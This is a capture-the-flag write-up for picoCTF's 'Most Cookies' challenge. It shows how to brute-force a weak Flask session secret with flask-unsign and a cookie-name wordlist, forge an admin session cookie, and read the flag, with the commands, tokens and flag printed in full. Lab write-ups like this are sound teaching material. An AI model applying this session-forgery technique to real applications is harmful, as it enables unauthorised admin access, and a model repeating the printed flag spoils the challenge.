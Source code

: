 # Most Cookies
## Description
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! http://mercury.picoctf.net:6259/

Attached file: server.py
## Solution
When the value of the stored cookie is pasted onto [dCode](https://www.dcode.fr/base-64-encoding), the base64 decoded message shows the following
```
{"very_auth":"blank"}
```
On observing the python file, the code seems to display the flag when the value of "very_auth" is "admin". To use flask unsign to decode the secret key, we need a wordlist containing all the names of the cookies, so I made a file "cookies.txt" containing all the cookies:
```
snickerdoodle
chocolate chip
oatmeal raisin
gingersnap
shortbread
peanut butter
whoopie pie
sugar
molasses
kiss
biscotti
butter
spritz
snowball
drop
thumbprint
pinwheel
wafer
macaroon
fortune
crinkle
icebox
gingerbread
tassie
lebkuchen
macaron
black and white
white chocolate macadamia
```
then using
```
flask-unsign --wordlist cookies.txt --cookie eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZVDIIA.vjBhTA7p-My1AX52Ks_Dr9H5Kzg --unsign
```
The command above prints the following message on the terminal
```
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'gingersnap'
```
Now that we know the secret cookie, by running the following command
```
flask-unsign --sign --cookie "{'very_auth':'admin'}" --secret "gingersnap"
```
The terminal displays the following
```
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZVDKMg.Vfs26CkF-2WbEE_F8zGSGhD5B8k
```
## Answer
Now replacing this signed value with the one displayed on cookies in the website and reloading gives the following message
```
Flag: picoCTF{pwn_4ll_th3_cook1E5_5f016958}
```